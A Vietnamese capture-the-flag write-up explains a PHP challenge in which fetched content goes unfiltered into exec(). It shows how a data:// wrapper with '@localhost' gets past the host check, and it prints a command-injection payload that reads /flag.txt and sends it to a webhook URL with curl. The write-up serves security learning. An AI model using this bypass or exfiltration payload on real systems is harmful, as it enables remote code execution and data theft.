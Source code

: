 ```php=
        $content = @file_get_contents($url, false, $context);
        if ($content === FALSE) {
            $error = error_get_last();
            throw new Exception("Unable to fetch content from the URL. Error: " . $error['message']);
        }
        return base64_decode($content);
    }

    if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['url'])) {
        $url = $_GET['url'];
        $allowedIP = 'localhost';
        
        if (isAllowedIP($url, $allowedIP)) {
            $content = fetchContent($url);
            // file upload removed due to security issues
            if ($content) {
                $command = 'echo ' . $content . ' | base64 > /tmp/' . date('YmdHis') . '.tfc';
                exec($command . ' > /dev/null 2>&1');
                // this should fix it
            }
        }
    }
?>
```

## EXPLOIT

Phân tích source code thì hàm isAllowedIP nó lấy 2 giá trị là `url` mình đưa vào và `allowHost`. Nó sử dụng hàm `parse_url` để phân tích rồi check xem phần host của url mình cung cấp có bằng allowHost hay không. Hàm `parse_url` sẽ trả về array chứa các key sau.
![image](https://hackmd.io/_uploads/H16uEfCtR.png)

Còn phần bên dưới thì allowIP là localhost, xong rồi lấy content của url đó đưa vào command rồi exec nó. Đoạn này là RCE đích thực rồi vì content này không được lọc mà đưa luôn vào hàm exec. Nhưng mà bypass host thế nào?

Lúc đầu mình cứ nghĩ là làm thế nào để juggling cái hàm `parse_url` kia để mà giá trị host của nó là localhost mà nó sẽ redirect sang web của mình và lấy dữ liệu từ đó để RCE.

Mình quên mất là trong php có 1 số wrapper đặc biệt mà có thể bypass được phần localhost kia. [Reference](https://www.php.net/manual/en/wrappers.php)

Và ở đây mình sẽ sử dụng `data` wrapper với payload sau:
`data://@localhost/plain,cGF5bG9hZF9oZXJl`

![image](https://hackmd.io/_uploads/r1YGImAt0.png)

Xây dựng payload như sau: `'' | cat /flag.txt | curl https://webhook.site/acbd8eda-6f05-4d8e-83da-9c029d5a9dd6 -X POST -d @-`

Lệnh curl dùng POST và `-d` hay `--data` dùng `@-` là lấy stdin chính là `flag.txt` kia. 
